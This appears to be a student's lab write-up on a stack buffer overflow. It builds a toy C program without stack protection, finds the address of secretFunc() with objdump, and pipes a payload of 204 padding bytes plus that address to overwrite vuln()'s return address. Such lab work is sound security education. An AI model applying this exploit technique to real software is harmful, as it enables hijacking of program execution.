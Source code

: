 # Lab bof1
Hà Quốc Tiến - 22110075<br>
## Target
- Make the `secretFunc()` run because of buffer-overflow.
## Solution
- Stack frames<br>
![bof1_1](https://github.com/Quoctienha/InformationSecurity_Labs-/blob/main/Buffer-overflow/img/bof1_1.png)
- In order to run `secretFunc()`, we will have to change the Return Address of `the vuln()` to `secretFunc()` address. So that it will call `secretFunc()`<br>
- We can see in the stack frames, if we want to change the Return Address of `the vuln()`, we have to insert 204 bytes + the address of `secretFunc()`.
## Execution
1. Create `bof1.out` by using ` gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2`.<br>
![bof1_2](https://github.com/Quoctienha/InformationSecurity_Labs-/blob/main/Buffer-overflow/img/bof1_2.png)
2. Get the address of the `secretFunc()`by using  `objdump -d bof1.out|grep secretFunc`.<br>
![bof1_3](https://github.com/Quoctienha/InformationSecurity_Labs-/blob/main/Buffer-overflow/img/bof1_3.png)
3. Start buffer-overflow, Inserting 204 'a' + the address of `secretFunc()`. In this case is 0x0804846b.<br>
` echo $(python -c "print('a'*204+'\x6b\x84\x04\x08')")| ./bof1.out 1`<br>
the 1 is for argv[1] to not be 0<br>
 ![bof1_4](https://github.com/Quoctienha/InformationSecurity_Labs-/blob/main/Buffer-overflow/img/bof1_4.png)
- The lab is done
